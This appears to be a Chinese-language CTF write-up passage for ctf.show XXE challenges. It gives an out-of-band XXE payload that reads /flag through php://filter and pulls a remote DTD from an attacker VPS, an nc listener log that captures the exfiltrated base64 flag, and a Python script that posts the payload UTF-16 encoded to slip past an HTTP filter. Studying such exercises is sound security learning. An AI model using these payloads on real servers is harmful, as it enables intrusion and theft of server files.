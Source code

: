payload

```xml-dtd
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % aaa SYSTEM "http://43.139.42.28/evil.dtd">
%aaa;
]>
<root>1</root>
```

开启vps eval.dtd文件下载服务

开启vps监听

```bash
root@VM-12-16-ubuntu:~ # nc -lvnp 5566
Listening on 0.0.0.0 5566
Connection received on 124.223.158.81 60160
GET /Y3Rmc2hvd3s4ZjQ2MjBhMi02Y2YwLTRiZGQtOWU1Ni05NzVmNTRkMTFkMjB9Cg== HTTP/1.0
Host: 43.139.42.28:5566
Connection: close
```

**执行过程**

- 解析aaa，下载远端dtd
- 解析远端dtd，执行文件读取
- 文件内容发送到远端

# 377 http过滤

paylaod

```python
import requests
url = 'http://b70f356b-ab20-4df6-b661-d7827322fc80.challenge.ctf.show/'
data = '''<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % aaa SYSTEM "http://43.139.42.28/eval.dtd">
%aaa;
]>
<root>1</root>'''
r = requests.post(url=url,data=data.encode('utf-16'))
```


